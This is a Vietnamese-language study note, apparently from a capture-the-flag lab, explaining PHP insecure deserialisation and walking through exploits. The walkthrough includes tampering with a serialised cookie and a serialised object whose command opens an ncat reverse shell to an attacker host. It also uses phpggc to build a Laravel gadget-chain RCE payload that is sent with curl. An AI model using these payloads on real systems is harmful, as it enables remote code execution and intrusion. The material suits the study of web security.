# **Insecure Deserialisation**
## **1. Some Important Concepts**
**Serialisation** là quá trình lấy những mẩu nhỏ thông tin và nhóm chúng vào cùng với nhau để có thể dễ dàng gửi và lưu trữ\
Trong lập trình, nó là một tiến trình trạng thái Object sang dạng humanable hoặc binary. Trong PHP thực hiện bằng hàm `serialize()`\
Ví dụ:\
Trạng thái Object là
```php
class User {
    public $username;
    public $role;
}

$user = new User();
$user->username = "an";
$user->role = "user";
```

Thì sau khi **Serialisation**, nó sẽ trở thành 

```php
O:4:"User":2:{
    s:8:"username";s:2:"an";
    s:4:"role";s:4:"user";
}
```
Cấu trúc là `s:<lenght>:<string>`



**Deserialisation** là quá trinh đảo ngược của **serialisation**, nó thực hiện chuyển đổi từ dữ liệu dạng đọc được sang dữ liệu dạng object để server có thể sử lý



## **2. Serialisation Formats**
### **PHP Serialisation**
Trong PHP, việc serialisation thực hiện banwfgg hàm `serialize()`, nó biến đổi một object thành một mảng các dữ liệu được biểu diễn theo một cấu trúc cụ thể\
Ví dụ:

```
O:5:"Notes":1:{s:7:"content";s:14:"Welcome to THM";}
```
sẽ biểu diễn cho object gồm 1 thuộc tính là `content` và giá trị của nó là `Welcome to THM`\
Phân tích từng phần:
- `O:5:"Notes":1:`: `O` biểu diễn cho object, `5` là độ dài của `Notes` - tên của object; `1` biểu diễn rằng object này có 1 thuộc tính
- `s:7:"content"`: `s`: string; `7`: độ dài tên thuộc tính; `content`: tên thuộc tính
- `s:14:"Welcome to THM"`: cấu trúc cũng tương tự, nhưng đây là phần biểu diễn của giá trị thuộc tính `content`

> Nếu kiểu dữ liệu là `int` thì biểu diễn là `i:2;`; `NULL` là `N;`; **boolean** là `b:1;` hoặc `b:0;`  

### **Magic method**
**Magic method** là các phương thức đặc biệt trong OOP được ngôn ngữ tự động gọi khi một sự kiện nhất định xảy ra, thay vì bạn phải gọi trực tiếp, thường bắt đầu bằng `__`\
Ví dụ:

```php
class User {
    public function __construct() {
        echo "Object được tạo";
    }
}
```

Khi ta tạo một đối tượng mới:

```php
$user = new User();
```

Thì hàm `__construct()` tự động được gọi chứ không cần ta gọi thủ công kiểu: `$user->__construct();`

Một số **Magic Method**:
- `__construct()` → chạy khi tạo object
- `__destruct()` → chạy khi object bị hủy/kết thúc vòng đời
- `__toString()` → chạy khi object được dùng như string
- `__get()` → chạy khi truy cập property không tồn tại/không truy cập được
- `__set()` → chạy khi gán property không tồn tại/không truy cập được
- `__wakeup()` → có thể chạy khi unserialize() object kiểu cũ
- `__unserialize()` → dùng trong quá trình unserialize ở PHP mới hơn

### **Python**
Trong Python sử dụng thư viện `pickle` để thực hiện quá trình `serialisation` bằng hàm `dumps()` và deserilisation bằng hàm `loads()`

## **3. Exploit - Update Properties**


Web cho một ứng dụng có thể lưu note của mình và share nó\
Nhưng khi share thì cần phải **subscribe**



```python
class Notes {

    private $user;
    private $role;
    private $isSubscribed;

    public function __construct($user, $role, $isSubscribed) {
        $this->user = $user;
        $this->role = $role;
        $this->isSubscribed = $isSubscribed;
    }

    public function setIsSubscribed($isSubscribed) {
        $this->isSubscribed = $isSubscribed;
    }

    public function getIsSubscribed() {
        return $this->isSubscribed;
 }
}
```

Ta có thể thấy được hàm `__construct` đã tự động gán giá trị mà người dùng gửi vào các thuộc tính của đối tượng, khi khởi tạo hàm này tự động thực thi mà không cần gọi



Ta quan sát request trong Burp thì thấy phần cookie có chứa giá trị `user_data` là base64\
Khi giải mã thì ra được chuỗi 

```
O:5:"Notes":3:{s:4:"user";s:5:"guest";s:4:"role";s:5:"guest";s:12:"isSubscribed";b:0;}
```

Ta thử chỉnh tham số `isSubscribed` thành giá trị `1`



Kết quả là hệ thống tự động sửa tham số theo đầu vào của người dùng, từ đó đã cấp cho họ quyền share 

## **4. Exploit - Object injection**
```php
<?php
class UserData {
    private $data;
    public function __construct($data) {
        $this->data = $data;
    }
..
require 'test.php';
if(isset($_GET['encode'])) {
    $userData = new UserData($_GET['encode']);
    $serializedData = serialize($userData);
    $base64EncodedData = base64_encode($serializedData);
    echo "Normal Data: " . $_GET['encode'] . "<br>";
    echo "Serialized Data: " . $serializedData . "<br>";
    echo "Base64 Encoded Data: " . $base64EncodedData;

} elseif(isset($_GET['decode'])) {
    $base64EncodedData = $_GET['decode'];
    $serializedData = base64_decode($base64EncodedData);
    $test = unserialize($serializedData);
    echo "Base64 Encoded Serialized Data: " . $base64EncodedData . "<br>";
    echo "Serialized Data: " . $serializedData;

...
```

Logic code của web như trên, nó có chức năng **serialisation** thông qua tham số `encode` và **deserialisation** bằng tham số `decode`\
Ngoài ra web còn chèn file `test.php` vào và chính nội dung của file này tạo nên lỗ hổng

```php
<?php
class MaliciousUserData {
public $command = 'ncat -nv ATTACK_IP 10.10.10.1 -e /bin/sh'; // call to troubleshooting server
    
    public function __wakeup() { 
    exec($this->command);
...

?>
```

File này chứa class `MaliciousUserData` có thuộc tính `$command` chức năng thực hiện câu lệnh OS, nó có hàm `__wakeup` nên chỉ cần gọi file này là có thể thực thi hàm này chứ không cần trực tiếp gọi

Vậy hướng khai thác là ta tạo một object `MaliciousUserData` rồi thực hiện **serialisation**, tiếp theo là **base64**, rồi gửi lên `decode` để server thực thi\
Sau khi gửi lên, server sẽ thực hiện **deserialisation**, tạo lại một object `MaliciousUserData` từ đó tự động gọi hàm `__wakeup`\
Ta sẽ gen một chuỗi `serialisation` bằng payload

```php
<?php
class MaliciousUserData {
public $command = 'ncat -nv ATTACK_IP 4444 -e /bin/sh';
}

$maliciousUserData = new MaliciousUserData();
$serializedData = serialize($maliciousUserData);
$base64EncodedData = base64_encode($serializedData);
echo "Base64 Encoded Serialized Data: " . $base64EncodedData;
?>
```



Tiếp theo là gửi lên server với tham số decode là chuỗi này `/case2/?decode=TzoxNzoiTWFsaWNpb3VzVXNlckRhdGEiOjE6e3M6NzoiY29tbWFuZCI7czozOToibmNhdCAtbnYgMTkyLjE2OC4xNzYuODAgNDQ0NCAtZSAvYmluL3NoIjt9`



Kết quả là ta nhận được kết nối từ server và có thể thực thi tùy ý câu lệnh OS

## **5. Automation Scripts**
### **Chức năng**
- **Gadget Chains**: khai thác các lỗ hổng cụ thể khi ứng dụng PHP deserialisation dữ liệu do người dùng cung cấp một cách không an toàn
- **Payload Generation**: tạo ra payload để test
- **Payload Customisation**

---
**Practice**


Web nói rằng cookie `XSRF-TOKEN` bị lỗi, khi ta decode, ta thấy rằng nó có cấu trúc 

```json
{"iv":"K5pAXiEhlDDZhsOQi\/dklQ==","value":"hbf430ghDwAV5f5QlJfat19yqOwCLipxSKhEt9cuCeJr0UXR67ymwtxxWQK9vameEDEcs5bYVqSxx JPp6EM g==","mac":"f0f8c714e69c9ff6ad928dad8771c9bc08709842dcdd9f12bfb9ba170c5bdd80"}
```

Được biết web dùng `Laravel 5.6.29`, ta có thể dùng `php phpggc -l | grep Laravel` để sử dụng những payload phù hợp với phiên bản này



`APP_KEY` là khóa dùng cho chức năng mã hóa, được cung cấp tại `http://10.49.176.198:8089/get-key`



Đề nói rằng phần chuỗi serialize gửi lên cần phải được mã hóa bằng một khoá `APP_KEY` bằng thuật toán của Laravel, nhưng ta chỉ cần sinh payload và đưa vào `http://10.49.176.198:8089/cve.php?app_key=xxx&payload=xxx`thì sẽ sinh được ra `XSRF-TOKEN` mà không phải tạo thủ công



Bây giờ ta sẽ sinh payload bằng `phpggc` rồi thực hiện `base64`

```bash
php phpggc Laravel/RCE2 system whoami | base64 | tr -d '\n'
```



Tiếp đến là tạo payload được mã hóa 



Sau đó gửi payload bằng `curl`

```bash
curl 10.49.176.198:8089 -X POST -H 'X-XSRF-TOKEN: eyJpdiI6ImhRU0doeXpBWTdKbkJxb0hRUVA4K3c9PSIsInZhbHVlIjoiQ1k2RHVHTThSOFhCM3hvOUlSMDJcLzZhRVlJbHphV29CdTU2TElSWW9wSEFNeUJ2RUxkcjNURkREdGZrZFg1cDNMQUJ2VGg0anRmZVhnRW00RVVQejQ4TFRMY1lCeUZwK252ekVpRE5Wd04wbGpcL0JlejZpT1pKd0Q0ZGpTQ00rMHBKRzBLdThnZnpGUWhyYU54R3dMVjI0NXZtNVMxck5vZGxFakU2UDBFSmc4VjhxQ1FPeGZUZVFQRk1zVVNcL2R4ZmV2Tnh3eHpDUkFaMlRNUlJ4Vm1ZdW5JY1RFQXVaWDBxOW1FUkNUMWZCM1wvYjcrZnBhMk81XC9tTTlvSVRTMFZ3dzdCeXUrNm5rU3B4d2FQNUNqbDFaYlVMTWVIXC9QVXI0N0h2QjZBYmxsNnJGbkJJU0tvb25rT0lUaUw5aVExY2MiLCJtYWMiOiJmMWY1MjU0NDIwNDUwY2IxZDc3Y2MzMmE0N2NiOTc5ZWEwMzc2N2UwYmIzOGU1MmJiNmRjMDY4NDNiMWU3MjJmIn0='| head -n 2
```



Kết quả là nhận được kết quả của lệnh `whoami`


